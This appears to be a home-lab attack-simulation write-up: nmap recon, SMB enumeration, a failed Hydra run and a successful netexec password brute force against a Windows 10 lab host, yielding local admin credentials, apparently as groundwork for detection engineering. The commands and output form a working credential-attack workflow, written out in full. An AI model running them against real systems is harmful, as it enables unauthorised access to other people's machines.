



# 02 — Attack Simulation (Kali, 192.168.100.106)

## Step 1 — Recon

```bash
nmap -sS -sV -p 139,445,5985,3389 192.168.100.108
```
Result: 445/tcp open (microsoft-ds). 3389 closed (Windows Home has no incoming RDP).

<p align="center">
  
</p>

## Step 2 — SMB enumeration

```bash
netexec smb 192.168.100.108 -u '' -p '' --shares
smbclient -L //192.168.100.108 -U guest%
```
Result: target identified (DESKTOP-F0JVTQT, Win10 Build 19041, signing:False, SMBv1:None). Null session → `STATUS_ACCESS_DENIED`; Guest → `ACCOUNT_DISABLED` (secure defaults, noted).

## Step 3 — Hydra attempt (FAILED — important finding)

```bash
hydra -L users.txt -P pass.txt smb://192.168.100.108 -t 4 -vV
```
Result: `[ERROR] invalid reply from target smb://192.168.100.108:445/`.
**Root cause:** Hydra's SMB module only speaks SMBv1/CIFS; target has SMBv1 disabled. Attacker pivoted to NetExec (SMBv2/3). Documented as a detection-engineering lesson (tool limitation, not lab drift).

## Step 4 — NetExec SMB brute force (SUCCESS)

```bash
netexec smb 192.168.100.108 -u users.txt -p pass.txt --continue-on-success
```
Result (excerpt):
- `[-] jdoe:123456 STATUS_LOGON_FAILURE` (× many)
- `[+] DESKTOP-F0JVTQT\jdoe:Password1` (success, 3rd password)
- `[+] DESKTOP-F0JVTQT\adminlab:P@ssw0rd (Pwn3d!)` (success, 4th password — local admin)
- `mreyes` → `STATUS_ACCOUNT_LOCKED_OUT` after 5 failures (letmein/rockyou/Winter2024! never tried)

<p align="center">
  
</p>

## Step 5 — Verify admin access

```bash
smbclient -L //192.168.100.108 -U adminlab%P@ssw0rd
```
Result: `ADMIN$`, `C$`, `IPC$` shares enumerated → local administrator confirmed. (Trailing SMB1 reconnect error is harmless — SMBv1 disabled.)

<p align="center">
  
</p>

## Attack window

2026-10-26 ~23:50 → 2026-10-27 00:00 (UTC+8). Peak activity 23:56–23:57.
